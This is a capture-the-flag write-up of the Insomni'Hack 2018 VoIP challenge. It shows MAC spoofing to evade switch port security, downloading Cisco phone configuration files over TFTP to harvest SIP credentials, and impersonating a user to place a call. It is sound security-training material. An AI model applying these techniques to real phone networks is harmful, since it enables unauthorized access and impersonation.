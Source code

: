 ```yaml
---
title: Insomni'Hack 2018 - Voice-VoIP
layout: writeup
redirect_from: "Writeups/2018/Insomni'hack/voice-voip/"
authors: Crypt0-M3lon
---
```

Solves: 6 / Points: 307

## Challenge description
> All the LAN ports are configured for this Cisco VOIP challenge. (this challenge does not work with the Wifi !).
> The characters are based around the film of the Silence of the Lambs [1991].
> The flag is like in the last scene of the film.
> 
> 
> 
> Hint : The voip challenge is on vlan 231 or 232
> 
> Tip : Don't use same MAC address as the Network as some protection and you would trigger turn off your LAN port


## Challenge resolution
The first step is to set up the vlan on our network intertace:
``$ ip link add link enp9s0 name enp9s0.231 type vlan id 231``

Due to security features enabled on the switch, it is mandatory to change the MAC address of the interface before running the DHCP request:
```shell
$ macchanger -r enp9s0.231
$ dhclient -v enp9s0.231
```
The option 128 is present in the DHCP Offer. This option is used to specify TFTP servers available on the network. The TFTP server address is 198.51.100.20, but as there is no file listing on TFTP servers, we need to know the name of the files to download. Common practice is to name the config file with the MAC address of the phone. 
By running nmap on the VOIP subnet, we can identify a Cisco phone at 192.168.231.5 with the following MAC address: 00:1A:2F:CB:72:2A. According to Cisco documentation, the configuration file is named SIP<MAC_ADDRESS>.cnf, let's try to download it:
```shell
$ atftp -g -r SIP001A2FCB722A.cnf 198.51.100.20
$ cat SIP001A2FCB722A.cnf
proxy1_address: "198.51.100.118"

line1_name: "2184"
line1_shortname: "Hannibal Lecter"
line1_displayname: "Hannibal Lecter"
line1_authname: "2184"
line1_password: "kfm8mmd*8"
[...]
```
We now have:
* The IP address of the SIP server: 198.51.100.118
* Hannibal Lecter account:
    * Login: 2184
    * Password: kfm8mmd*8

But we still need to know Clarice's phone number. After an unsuccessful bruteforce to discover new user's phone number using _svwar_ from _Sipvicious_ (who is 2866?), we finally downloaded the default config file from the TFTP server:
```shell
$ atftp -g -r SIPDefault.cnf 198.51.100.20
$ cat SIPDefault.cnf
[...]
#services_url: "http://example.domain.tld/services/menu.xml"
#directory_url: "http://example.domain.tld/services/directory.php"
directory_url: "http://198.51.100.20/directory.xml"
[...]
``` 
Wut! A directory file is present on the TFTP server and it contains the phone number of Clarice:  6834. 
From now, we just need to set up a SIP client, impersonate Hannibal by using previously gathered credentials and call Clarice at 6834@198.51.100.118. A bot answers our call and gives us the flag.